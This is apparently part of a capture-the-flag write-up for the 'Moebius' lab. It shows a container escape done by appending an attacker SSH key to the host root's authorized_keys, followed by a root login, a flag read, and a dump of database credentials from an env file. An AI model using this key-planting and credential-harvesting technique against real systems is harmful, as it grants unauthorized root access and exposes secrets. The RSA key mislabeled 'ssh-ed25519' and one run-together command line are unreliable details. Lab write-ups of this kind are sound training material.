 <h3>Generate SSH Key</h3>

```bash
:~/Moebius# ssh-keygen -f id_rsa -t rsa
...
:~/Moebius# cat id_rsa.pub
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDKssFFfeF.....
```



```bash
root@bb28d5969dd5:~# echo 'ssh-ed25519 AAAAB3NzaC1yc2EAAAADAQABAAABgQDKssFFfeF.....' >> /mnt/root/.ssh/authorized_keys
```

<h3>ssh</h3>

```bash
:~/Moebius# ssh -i id_rsa root@TargetIP
root@ubuntu-jammy:~# ls
challenge  snap  user.txt
root@ubuntu-jammy:~# cat user.txt
THM{Redacted}
```

<br>


```bash
root@ubuntu-jammy:~# cd challengeroot@ubuntu-jammy:~/challenge# ls -lah
total 20K
drwxr-xr-x 4 root root 4.0K Mar  8 06:39 .
drwx------ 6 root root 4.0K Mar  8 06:39 ..
drwxr-xr-x 2 root root 4.0K Mar  8 06:40 db
-rw-r--r-- 1 root root  294 Mar  8 06:39 docker-compose.yml
drwxr-xr-x 3 root root 4.0K Mar  8 06:39 web
```

<h3>deb.env</h3>

```bash
root@ubuntu-jammy:~/challenge# cd db
root@ubuntu-jammy:~/challenge/db# ls
db.env
root@ubuntu-jammy:~/challenge/db# cat db.env
MYSQL_PASSWORD=TAJnF6YuIot83X3g
MYSQL_DATABASE=web
MYSQL_USER=web
MYSQL_ROOT_PASSWORD=gG4i8NFNkcHBwUpd
```

<h3>Containers available</h3>

```bash
root@ubuntu-jammy:~/challenge/db# docker container ls
CONTAINER ID   IMAGE                    COMMAND                  CREATED        STATUS       PORTS                                 NAMES
89366d62e05c   mariadb:10.11.11-jammy   "docker-entrypoint.s\u2026"   4 months ago   Up 4 hours   3306/tcp                              challenge-db-1
bb28d5969dd5   challenge-web            "docker-php-entrypoi\u2026"   4 months ago   Up 4 hours   0.0.0.0:80->80/tcp, [::]:80->80/tcp   challenge-web-1
```
